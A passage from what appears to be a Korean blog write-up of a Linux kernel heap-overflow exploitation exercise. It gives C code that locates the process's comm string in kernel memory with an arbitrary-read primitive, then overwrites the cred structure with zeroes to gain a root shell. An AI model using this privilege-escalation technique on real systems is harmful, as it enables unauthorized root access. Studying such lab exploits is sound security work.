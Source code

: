 이제 `prctl()`로 comm에 임의의 값을 써준 후 힙 전체를 탐색한다.

```c
    prctl(PR_SET_NAME, "1q2w3e4r");
    unsigned long addr = g_buf - 0x1000000;
    for (;;addr += 0x8) {
        if ((addr & 0xfffff) == 0)
            printf("searching... 0x%016lx\n", addr);

        if (aar(addr) == 0x77327131 && aar(addr + 4) == 0x72346533) {
            printf("found comm at %p\n", addr);
            break;
        }
    }
```

`g_buf`에서 0x100000정도 떨어진 곳부터 검사하라고 나와있지만 이렇게 검사하면 다음과 같이 kernel panic이 발생하고, 제대로 된 cred 구조체 주소를 가져오지 못한다. 어떤 이유에서인진 모르겠지만 저 값이 힙에 하나만 있는 것이 아니라 몇 개 존재하는 것 같아 보인다.

이곳에 담긴 값은 문자열도 아니고 메모리 주소도 아니다. (canonical address가 아님)

![fail.png](/assets/images/posts_img/kernel/kernel-exploit-tech/lk02-heap-overflow/fail.png)

이를 해결하기 위해 탐색 범위를 0x500000정도 떨어진 곳부터 잡으면 된다. 이후 `cred` 구조체의 주소를 가져온 후 (문자열로부터 뒤로 8바이트) 그 주소에 0을 써 주면 된다.

```c
    addr -= 8;
    unsigned long cred_addr = aar(addr) | ((unsigned long)aar(addr + 4) << 32);
    printf("cred: %p\n", cred_addr);

    for (int i = 1; i < 9; i++) {
        aaw(cred_addr + i * 0x4, 0);
    }
```

전체 익스플로잇 코드는 다음과 같다.


<details><summary>펼치기/접기</summary></details>

실행하면 쉘을 얻을 수 있다.

<p align="center">